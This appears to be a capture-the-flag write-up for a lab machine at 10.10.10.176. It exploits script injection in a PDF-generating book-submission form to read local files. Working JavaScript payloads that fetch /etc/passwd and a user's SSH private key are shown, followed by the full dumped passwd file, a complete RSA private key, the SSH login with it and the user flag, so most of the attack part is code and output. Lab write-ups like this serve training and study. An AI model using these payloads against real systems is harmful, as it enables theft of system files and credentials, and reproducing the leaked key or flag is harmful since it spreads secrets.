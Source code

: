 #### 3.1. PDF SSRF

1) Documentation

```
https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html
```

2) Register regular account to submit PDF files

```
# c=`http http://10.10.10.176/index.php -phH | grep -oE 'PHPSESSID=.*;'`
# http -f POST http://10.10.10.176/index.php Cookie:"$c" name=test123 email="test123@test123.com" password=test123 -v
```

2) Login as user

```
Target: http://10.10.10.176
User: test123@test123.com
Password: test123
```

#### 3.2. Exploitation - steps

0. Install PDF2Text `# pip install pdfminer.six`
1. Visit `http://10.10.10.176/collections.php`
2. Submit a new book (use payload bellow for both `Book Title` and `Author` fields)
3. Create test PDF: `# convert xc:none -page Letter a.pdf` (to upload a valid PDF file)

Payload 1:
```
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
```
Result: `http://10.10.10.176/admin/collections.php?type=collections`

Payload 2:
```
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();</script>
```
Result: `http://10.10.10.176/admin/collections.php?type=collections`


#### 3.3. Exploitation - outcome

Result 1:
```
# python ~/.local/bin/pdf2txt.py /tmp/83310.pdf 2>/dev/null
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin	sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin	www-data:x:33:33:www-
data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing	List	Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin	gnats:x:41:41:Gnats
Bug-Reporting	System	(admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin	systemd-
network:x:100:102:systemd	Network
Management,,,:/run/systemd/netif:/usr/sbin/nologin	systemd-
resolve:x:101:103:systemd
Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
reader:x:1000:1000:reader:/home/reader:/bin/bash
mysql:x:111:114:MySQL	Server,,,:/nonexistent:/bin/false
```

Result 2:
```
# python ~/.local/bin/pdf2txt.py /tmp/70822.pdf 2>/dev/null
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEA2JJQsccK6fE05OWbVGOuKZdf0FyicoUrrm821nHygmLgWSpJ
G8m6UNZyRGj77eeYGe/7YIQYPATNLSOpQIue3knhDiEsfR99rMg7FRnVCpiHPpJ0
WxtCK0VlQUwxZ6953D16uxlRH8LXeI6BNAIjF0Z7zgkzRhTYJpKs6M80NdjUCl/0
ePV8RKoYVWuVRb4nFG1Es0bOj29lu64yWd/j3xWXHgpaJciHKxeNlr8x6NgbPv4s
7WaZQ4cjd+yzpOCJw9J91Vi33gv6+KCIzr+TEfzI82+hLW1UGx/13fh20cZXA6PK
75I5d5Holg7ME40BU06Eq0E3EOY6whCPlzndVwIDAQABAoIBAQCs+kh7hihAbIi7
3mxvPeKok6BSsvqJD7aw72FUbNSusbzRWwXjrP8ke/Pukg/OmDETXmtgToFwxsD+
McKIrDvq/gVEnNiE47ckXxVZqDVR7jvvjVhkQGRcXWQfgHThhPWHJI+3iuQRwzUI
tIGcAaz3dTODgDO04Qc33+U9WeowqpOaqg9rWn00vgzOIjDgeGnbzr9ERdiuX6WJ
jhPHFI7usIxmgX8Q2/nx3LSUNeZ2vHK5PMxiyJSQLiCbTBI/DurhMelbFX50/owz
7Qd2hMSr7qJVdfCQjkmE3x/L37YQEnQph6lcPzvVGOEGQzkuu4ljFkYz6sZ8GMx6
GZYD7sW5AoGBAO89fhOZC8osdYwOAISAk1vjmW9ZSPLYsmTmk3A7jOwke0o8/4FL
E2vk2W5a9R6N5bEb9yvSt378snyrZGWpaIOWJADu+9xpZScZZ9imHHZiPlSNbc8/
ciqzwDZfSg5QLoe8CV/7sL2nKBRYBQVL6D8SBRPTIR+J/wHRtKt5PkxjAoGBAOe+
SRM/Abh5xub6zThrkIRnFgcYEf5CmVJX9IgPnwgWPHGcwUjKEH5pwpei6Sv8et7l
skGl3dh4M/2Tgl/gYPwUKI4ori5OMRWykGANbLAt+Diz9mA3FQIi26ickgD2fv+V
o5GVjWTOlfEj74k8hC6GjzWHna0pSlBEiAEF6Xt9AoGAZCDjdIZYhdxHsj9l/g7m
Hc5LOGww+NqzB0HtsUprN6YpJ7AR6+YlEcItMl/FOW2AFbkzoNbHT9GpTj5ZfacC
hBhBp1ZeeShvWobqjKUxQmbp2W975wKR4MdsihUlpInwf4S2k8J+fVHJl4IjT80u
Pb9n+p0hvtZ9sSA4so/DACsCgYEA1y1ERO6X9mZ8XTQ7IUwfIBFnzqZ27pOAMYkh
sMRwcd3TudpHTgLxVa91076cqw8AN78nyPTuDHVwMN+qisOYyfcdwQHc2XoY8YCf
tdBBP0Uv2dafya7bfuRG+USH/QTj3wVen2sxoox/hSxM2iyqv1iJ2LZXndVc/zLi
5bBLnzECgYEAlLiYGzP92qdmlKLLWS7nPM0YzhbN9q0qC3ztk/+1v8pjj162pnlW
y1K/LbqIV3C01ruxVBOV7ivUYrRkxR/u5QbS3WxOnK0FYjlS7UUAc4r0zMfWT9TN
nkeaf9obYKsrORVuKKVNFzrWeXcVx+oG3NisSABIprhDfKUSbHzLIR4=
-----END RSA PRIVATE KEY-----
```


#### 3.4. User flag


1) User access

```
# chmod 600 /tmp/reader.key
# ssh -i /tmp/reader.key -o StrictHostKeyChecking=no reader@10.10.10.176
```

2) Flag

```
reader@book:~$ cat user.txt
51c1d4b5197fa30e3e5d37f8778f95bc
```
